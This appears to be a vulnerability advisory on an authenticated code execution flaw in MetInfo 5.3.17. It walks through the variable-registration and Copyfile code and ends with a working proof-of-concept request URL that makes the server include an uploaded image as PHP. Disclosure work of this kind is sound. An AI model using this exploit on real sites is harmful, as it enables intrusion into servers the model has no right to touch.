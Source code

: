 # MetInfo 5.3.17 Authenticated Code Execution Vulnerability

## Technical Description:

 We can use the GPC data to register variables in `admin/include/common.inc.php`:

```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key]=daddslashes($_value,0,0,1);
	}
}
```

Then we can use the variable we have registered in `admin/app/physical/physical.php`:

```php
<?php 
require_once $depth.'../login/login_check.php';
...
if($action=="do"){
	...
}elseif($action=="fingerprint"){
	...
}elseif...
	...
}
?>
```

We can register the `$action` variable to control the flow of the program.

When the value of `$action` is `op` and the value of `$op` is 3 :

```php
case 3:
	$fileaddr=explode('/',$val[1]);
	$filedir="../../../".$fileaddr[0];  
	if(!file_exists($filedir)){ @mkdir ($filedir, 0777); } 
	if($fileaddr[1]=="index.php"){
		Copyindx("../../../".$val[1],$val[2]);
	}
	else{
		switch($val[2]){
			case 1:
				$address="../about/$fileaddr[1]";
			break;
			case 2:
				$address="../news/$fileaddr[1]";
			break;
			case 3:
				$address="../product/$fileaddr[1]";
			break;
			case 4:
				$address="../download/$fileaddr[1]";
			break;
			case 5:
				$address="../img/$fileaddr[1]";
			break;
			case 8:
				$address="../feedback/$fileaddr[1]";
			break;
			}   
			
			$newfile  ="../../../$val[1]";  			
			Copyfile($address,$newfile);
	}
		echo $lang_physicalgenok;
		break;
```

As we see, as long as the `$val[2]` is empty，we can register both `$address` and `$newfile`，then we go in to the `Copyfile`:

```php
function Copyfile($address,$newfile){
	$oldcont  = "<?php\n# ...require_once '$address';...\n?>";
	if(!file_exists($newfile)){
		$fp = fopen($newfile,w);
		fputs($fp, $oldcont);
		fclose($fp);
	}
}
```   

The program will write a file to the value of `$newfile`, the content of the file is a php script, which will `require_once` the value of `$address`. So we can construct a request to let the program require the malicious image file we have uploaded.

## Proof of Concept(PoC)

Frist we log in as administrator and upload an image, which content is `<php phpinfo();>`, then we can get the address of the image by viewing page source.

![Alt text](./getaddr.png)

Then we visit `http://host/admin/app/physical/physical.php?action=op&op=3&valphy=test|vuln/1.php&address=the_address_of_the_image` to generate the php script, in our example, the PoC url is  `http://127.0.0.1:8081/admin/app/physical/physical.php?action=op&op=3&valphy=test|vuln/1.php&address=../upload/file/1500012989.png` Finally, we can visit `http:/host/vuln/1.php` to execute the code.

![Alt text](./vuln.png)



